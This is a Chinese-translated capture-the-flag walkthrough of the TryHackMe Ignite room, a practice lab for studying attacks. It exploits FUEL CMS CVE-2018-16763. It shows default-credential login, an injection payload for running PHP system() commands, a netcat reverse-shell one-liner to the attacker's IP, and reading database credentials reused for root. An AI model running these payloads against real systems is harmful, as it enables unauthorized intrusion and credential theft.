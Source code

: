 # [THM]点燃记录

> 原文：<https://infosecwriteups.com/thm-ignite-writeup-9a5ac8ac098?source=collection_archive---------1----------------------->

![](img/7e17ccc47996c58cc1637bcb99893df5.png)

[Ignite](https://tryhackme.com/room/ignite) 是 TryHackMe 中的一个简单机器，我们将在其中使用基本枚举，了解更多关于 [FUEL CMS](https://www.getfuelcms.com/) 的信息，以及如何探索它以获得对服务器的访问。

首先，让我们用 [MASSCAN](https://github.com/robertdavidgraham/masscan) 看看哪些端口是打开的:

```
masscan -p- --rate 10000 10.10.217.174
```

*   `p-`:枚举所有 TCP 端口，从 1 到 65535
*   `-rate`:每秒向主机发送多少数据包

> 我更喜欢使用 MASSCAN 来枚举端口，因为它比 nmap 快得多，所以在发现端口后，我们可以使用 nmap 来单独检查这些端口中运行的服务。

![](img/d7a5595b7cad71d8d94932e1dace61ab.png)

质量扫描输出

从输出中，我们看到只有**端口 80** 是打开的，所以现在我不会运行 nmap，相反，让我们通过在浏览器中访问 web 服务器来检查我们能找到什么:

![](img/bd346cf359ce7c4f8cb8d0464ed44ec0.png)

http://10.10.217.174/

这里我们找到了 [FUEL CMS](https://www.getfuelcms.com/) 的默认登陆页面，它基本上是一个用于创建 web 应用程序的 [CodeIgniter](https://www.codeigniter.com/) (一个 PHP web 框架)开发平台。

看一看这第一页，有些东西引起了我的注意:

![](img/6e7600dc99aea83b88ea3a910e467e2f.png)

http://10.10.217.174/

`/fuel`目录指向一个登录表单，可以使用默认凭证`admin:admin`访问这个表单(不奇怪)**。**

![](img/85520ea8bf084a7ff9419c4b5cc55032.png)

http://10 . 10 . 217 . 174/燃料

然而，即使有了这个权限，我也不能在管理界面上做太多事情。我尝试了一些[文件上传技术](https://book.hacktricks.xyz/pentesting-web/file-upload)，但似乎能够访问这个页面是一个兔子洞，所以让我们暂时不要管它。

## 接近机器

让我们尝试使用 [searchsploit](https://www.exploit-db.com/searchsploit) 来查找 FUEL CMS 是否有任何已知的漏洞:

```
searchsploit fuel
```

![](img/485486a7e6d8424033c70a5508491775.png)

`searchsploit output`

在这种情况下，导致远程代码执行的漏洞是我们最好的朋友，幸运的是，我们有一个这样的工具。我们可以通过运行以下命令来下载脚本:

```
searchsploit -m php/webapps/50477.py
```

![](img/2b30ddffa5f9e84ea0f8170ea89e197a.png)

searchsploit 镜像命令

*   `-m`:将漏洞镜像到当前工作目录

> 提示:在决定镜像哪个漏洞之前，您可以使用`-x`选项来检查漏洞。

我选择这个特殊的脚本是因为它是用我熟悉的 Python 3 编写的，这使得我在需要时可以更容易地修改一些东西，但是您可以使用任何其他可能适合您的脚本。

该脚本探究了 [CVE-2018-16763](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-16763) 中披露的漏洞，该漏洞表明≤ 1.4.1 版本的 FUEL CMS 容易受到远程代码执行(RCE)的攻击，这是由于在`/pages/select`过滤器参数和`/preview`数据参数中不正确的输入验证造成的。

仔细看看这个脚本，我们可以看到它是如何与服务器通信的:

![](img/f24ce8dd70898fa94bf484f108204e04.png)

漏洞脚本

为了解码 URL，我使用了 [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Decode()) 中的`URL Decode`配方，产生了以下代码:

```
main_url = url+"/fuel/pages/select/?filter='+pi(print($a='system'))+$a('"+quote(cmd)+"')+'"
```

所以基本上，这个漏洞所做的就是在服务器中执行一个 [PHP 系统](https://www.php.net/manual/en/function.system.php)命令:

![](img/d6451163138db93503c31537b1617116.png)

因为我们可以执行系统命令，所以我们可以在服务器中生成一个反向 shell，所以在另一个终端中，让我们开始监听连接:

```
nc -lvnp 1123
```

在运行漏洞利用的终端中，我们可以发送以下命令来生成一个反向 shell:

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
```

![](img/b9c48c837357fcd513d26ae5f03f05cd.png)

之后，我们可以在终端中检查连接是否可以建立:

![](img/424ed83cef52e6cb538fca63a7b2f78e.png)

机器访问✅

首先，我们来换一个更好的外壳:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

现在，我们可以在目录和文件中查找用户标志:

```
cat /home/www-data/flag.txt
```

## 权限提升

在尝试了一些[基本权限提升](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)技术后，我决定再次查看我们找到的第一个页面(默认登录页面)，然后我看到了一些有趣的东西:

![](img/775646d758c6c381d098a03179b93aec.png)

http://10.10.217.174/

那么，让我们来看看数据库文件:

```
cat /var/www/html/fuel/application/config/database.php
```

在文件的末尾，我们可以找到一些凭证:

![](img/a83d0244b28f72fc0afcc4aad511184d.png)

`/var/www/html/fuel/application/config/database.php`

我们可以尝试看看这个密码对于 root 用户是否相同:

![](img/dfcf9179623d8a9152f7d3bd9a0b1bf2.png)

确实是！特权升级✅

现在我们可以读取根标志:

```
cat /root/root.txt
```

## 结论

这是一个很好的利用机器，尤其是告诉我们答案就在我们面前，我们只需要记住每当我们遇到困难时，要仔细检查我们已经知道的东西。

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)